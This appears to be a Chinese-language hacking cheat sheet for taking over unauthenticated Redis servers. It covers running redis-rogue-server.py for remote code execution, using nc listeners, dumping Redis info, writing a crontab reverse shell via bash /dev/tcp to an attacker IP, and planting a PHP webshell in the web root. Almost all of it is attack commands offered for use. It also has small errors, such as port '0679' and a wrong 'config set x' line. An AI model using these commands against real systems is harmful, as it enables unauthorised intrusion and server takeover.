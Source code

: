 # redis-rogue-server rce

当 `redis` 可以远程访问并且Redis <= 5.0.5

1. 访问:0679端口。 查看是否可以远程访问

2. `redis-rogue-server.py -h`

 find / -name *redis* 找找绝对路径

3. 使用

```
python3 redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
                                远程主机            本地主机


# 开启监听
# nc相应端口
 nc -lvvp 9999

```
Redis未授权访问验证、获取敏感信息

　　Nmap扫描后发现主机的6379端口对外开放，就可以用本地Redis远程连接服务器（redis在开放往外网的情况下，默认配置下是空口令，端口为6379）连接后可以获取Redis敏感数据。

这里我使用另一台安装了redis的centos远程连接测试

```bash
./redis-cli   -h   192.168.242.134.

redis 192.168.242.134:6379> info # 查看敏感信息

```


### 利用crontab反弹shell

>>直接向靶机的Crontab写入任务计划，反弹shell回来
```
redis 192.168.242.134:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.242.131/888 0>&1\n"
redis 192.168.242.134:6379> config set dir /var/spool/cron/
redis 192.168.242.134:6379> config set dbfilename root
redis 192.168.242.134:6379> save
```

set x "\n* * * * * bash -i >& /dev/tcp/192.168.12.47/2345 0>&1\n"

然后在攻击机（192.168.242.131）上启动 nc 监听 888端口，等待反弹shell。这过程需要一些时间。
```
nc -lvnp 888
```

### 写入webshell

当自己的redis权限不高时，可以向web里写入webshell，但需要对方有web服务且有写入权限。假设靶机里面存在WEB服务并且目录在 /var/www/html
```
redis 192.168.242.134:6379>config set dir /var/www/html

redis 192.168.242.134:6379>config set x "<?php phpinfo();?>"

redis 192.168.242.134:6379>config set dbfilename webshell.php

redis 192.168.242.134:6379>save
```
